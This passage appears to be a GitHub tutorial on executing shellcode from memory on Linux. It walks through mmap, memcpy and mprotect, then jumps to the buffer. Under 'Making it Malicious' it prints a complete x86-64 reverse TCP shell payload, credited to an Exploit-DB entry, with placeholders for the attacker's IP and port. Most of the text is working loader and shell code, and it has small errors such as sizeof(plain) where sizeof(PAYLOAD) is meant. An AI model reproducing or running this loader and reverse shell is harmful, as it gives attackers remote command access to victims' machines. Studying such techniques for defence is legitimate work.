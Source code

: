 The prototype for `mmap()` is

```
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

Details can be found [here](https://man7.org/linux/man-pages/man2/mmap.2.html)
but in in summary for this call:
- setting `addr` to `NULL` has the system choos the address for us
- `PROT_READ | WRITE` allows the page to be read and written to
- `MAP_ANONYMOUS | PRIVATE` specifies to zeroize the memory

next, we copy our machine code to the allocated space

```c
    memcpy(mem, PAYLOAD, sizeof(PAYLOAD));
```

and change the page protections to read+execute

```c
    if (mprotect(mem, sizeof(plain), PROT_READ | PROT_EXEC) == -1) {
        perror("mprotect");
        return 2;
    }
```

with this we can now execute the shellcode directly from memory
by setting a function pointer to the newly allocated space and
calling it. We can also free the memory after this is done.

```c
    int (*ret)() = (int(*)())mem;
    ret();

    // Free the memory
    if (munmap(mem, sizeof(plain)) == -1) {
        perror("munmap");
        return 3;
    }
}
```

<br>

***

## Making it Malicious

***

The experiment we went through becomes quite useful when the payload is shellcode.
For this example, we open a reverse tcp bind shell using shellcode written by
Russell Willis ([Exploit DB entry](https://www.exploit-db.com/exploits/43599)):

```c
unsigned char PAYLOAD[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
"\x02" PORT "\xc7\x44\x24\x04" IPADDR "\x48\x89\xe6\x6a\x10"
"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05"
```
